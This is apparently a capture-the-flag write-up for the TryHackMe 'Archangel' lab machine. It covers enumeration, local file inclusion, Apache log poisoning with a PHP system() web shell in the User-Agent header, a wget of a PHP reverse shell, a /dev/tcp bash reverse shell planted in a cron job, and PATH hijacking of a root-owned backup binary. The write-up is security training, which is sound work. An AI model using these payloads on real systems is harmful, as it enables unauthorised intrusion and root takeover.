






# Archangel CTF [TryHackMe](https://tryhackme.com/room/archangel)


---

```bash
export IP=10.10.62.137
```

---
## Index
- [Enumeration](#enumeration)
- [Gaining access](#getting-access-to-the-machine)
- [PrivEsc](#escalating-priviledges)
---

### Enumeration

```bash
$ nmap -sC -sV -v $IP -oN nmap/initial.nmap
$ nmap -p- $IP -T4 -oN nmap/all_ports.nmap
```

Ports:

```
22 ssh
80 http
```

Since we have a website we can explore, we can use gobuster to enumerate the pages.

```bash
$ gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .txt,.php,.jpg,.png,.html -o gobuster/dir_med.txt
```

Exploring the site, we notice that it has a hostname associated with it `mafialive.thm` which we can append to our `/etc/hosts` and accessing the site again from `mafialive.thm` shows us a development website.

Running gobuster _again_ on `mafialive.thm` we discover a `test.php` which appears to be asking for a LFI exploit.




First we try checking `/etc/passwd` which is restricted, however, using php filter with b64, we can bypass this

```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```



And decrypt this to get the second flag!

Now looking at the php source code, we can exploit it by using `..//..` or `.././..` to navigate through the file directories (and cheekily nab the user.txt flag since we know what homes exists from `/etc/passwd`)

---

### Getting access to the machine

Now we have to look into getting a reverse shell onto the machine.
Now admittedly, I did get stuck here and used the hint, which points to some sort of poisoning. Googling around for hints, I realised it was referring to apache2 log poisioning.
First we check we can access the logs from here

`http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log`

And since we can, we can now execute arbitary commands through it. Enabling us to create a reverse-shell by manipulating our request headers in BurpSuite (or using curl but BurpSuite lets us repeat requests easily in case we make a mistake)

Modifying our `User-Agent` to `<?php system($_GET['cmd']); ?>` and adding `&cmd` to our request

~~~
GET /test.php?view=/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log&cmd=whoami
~~~

And when we access the site, we can see appended to the end of our log, the results of our command `www-data`

Now we could create a reverse using this but it feels a bit _clunky_, so instead, what'll we'll do is upload a php reverse shell (assuming its a linux machine).

Constructing our request
Our side:

```bash
$ (cd ~/reverse_shells/php; python3 -m http.server 8888) || netcat -lvnp 9999
```

~~~
GET /test.php?view=/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log&cmd=wget%20http://<<IP>>:<<port>>/revshell.php HTTP/1.1
Host: mafialive.thm
User-Agent: <?php system($_GET['cmd']); ?>
~~~

Now we can access the reverse shell from `http://mafialive.thm/revshell.php`

---

### Escalating Priviledges

Now that we have access as `www-data` we can enumerate the system to escalate priviledges. In order to speed this up, I also put linpeas onto the shell and run it.

I notice a file running in the crontab, which we could also edit, running by another use `archangel`. Modifying this file to create a new reverse-shell by adding this code:



```bash
$ bash -i >& /dev/tcp/IP/8888 0>&1
```

I noticed other write-ups created an ssh key for ease-of-access but I prefer this since it leaves less of a trace.

Now that we have access to more files, I notice a strange `backup` file owned by root but executable by anyone.



Running strings through the file, we notice something strange:



It is `PATH` exploitation time!

```bash
$ export PATH="$(pwd):$PATH"
```

And we can create a `cp` file which will give us root access

```bash
#!/bin/bash
/bin/bash -i
```

Remember to make it executable

```bash
$ chmod +x cp
$ ./backup
```



And we are _**complete!**_


